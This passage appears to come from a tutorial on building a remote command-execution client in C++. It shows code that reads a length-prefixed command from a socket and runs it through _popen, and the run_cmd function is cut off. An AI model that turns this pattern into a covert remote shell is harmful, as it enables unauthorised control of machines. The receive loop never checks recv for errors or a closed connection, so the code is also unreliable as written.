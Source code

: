 ```cpp
// initialize variables
int msg_len = 0;
std::string msg = "";

// recv first 4 bytes for msg length
recv(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 0);
msg_len = ntohl(msg_len);

// intialize a buffer with length of the message
std::vector<char> buffer(msg_len);

int total = 0;
int recieved = 0;

// continue looping until all the bytes have been recieved
while (total < msg_len)
{
	recieved = recv(sock, buffer.data() + total, msg_len - total, 0);
	total += recieved;

}
```

The `recv` function requires a buffer for the data to be put in, so we convert the message length into a char buffer temporarily for the data to be put in using `reinterpret_cast<char*>`. The `msg_len` variable still remains an integer. 

Lets say that `msg_len` is equal to `\x00\x00\x00\x00`, the `reinterpret_cast<char*>` temporarily converts it into `["\x00", "\x00", "\x00", "\x00"]`, this is not completely accurate for demonstration purposes. 

Now that the bytes have been received we need to convert `msg_len` into the host byte order, previously we used `struct.pack("!I")`, the `!` converts the bytes into network byte order, but they need to be in host byte order for the program to accurately read them. We can do this using `ntohl()`.

Now that we have the `msg_len` we can recreate the previous messaging function, in the `recv_msg` function we loop until the final message length is equal to the expected message length.

Perfect! We have the command we want to execute, now we need to actually execute it. We can do that with this function:

```cpp
std::string run_cmd(std::string command)
{

	// Run the command
	char buffer[128];
	std::string result = "";

	// Run the command and pipe the output into pipe
	FILE* pipe = _popen(command.c_str(), "r");
	// If no pipe exists then the command failed.
	if (!pipe)
	{
		return "popen failed.";
	}

	// Loop over the pipe and add the result in increments of 128 until there is no longer any data
	while (!feof(pipe))
	{
		if (fgets(buffer, 128, pipe) != NULL)
		{
			result += buffer;
		}
	}

```